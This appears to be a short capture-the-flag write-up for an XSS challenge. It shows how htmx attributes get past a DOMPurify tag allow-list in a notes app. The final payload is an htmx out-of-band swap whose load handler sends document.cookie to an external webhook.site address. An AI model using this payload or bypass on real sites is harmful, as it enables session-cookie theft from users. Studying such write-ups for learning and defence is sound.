 ## Title

I'm not the CEO

## Description

I was fired due to my last notes app understandably, let me fix it here...

Author: ahh
http://45.129.40.107:9674/ | http://45.129.40.107:9675/ 

## Solution

We need to create a XSS payload to bypass the following filters:

```
const ALLOWED_TAGS = [
    'a',     
    'b',      
    'i',    
    'u',     
    'strong', 
    'em',     
    'p',      
    'h1',     
    'h2',
    'h3',
    'h4',
    'h5',
    'h6',
    'br',     
    'span',   
    'div'     
];

htmx.on("htmx:beforeSwap", (event) => {
    if (event.detail.target.id.startsWith("note")) {
        event.detail.serverResponse = DOMPurify.sanitize(event.detail.serverResponse, {ALLOWED_TAGS: ALLOWED_TAGS});
    }
});
```

I tried:

`</p></div></div></div><a id=\"test\" href=\"#\" onclick=\"alert('XSS')\">Click me</a><div><p>` -> We cant escape from the div notes-container
`<a id=\"test\" href=\"#\" onclick=\"alert('XSS')\">Click me</a>` -> It seems like sanitize clens the onclick.


The answer was using the `hx-on::afterRequest` attribute which allow the execution of arbitrary js.
Final payload:
```html
<div data-nice data-hx-swap-oob="beforeend:html">
  <div data-hx-on::load="fetch('//webhook.site/2c21cc27-c7bb-460b-b054-82b31ff38216?'+document.cookie)">
</div>
```

![Alt text](image.png)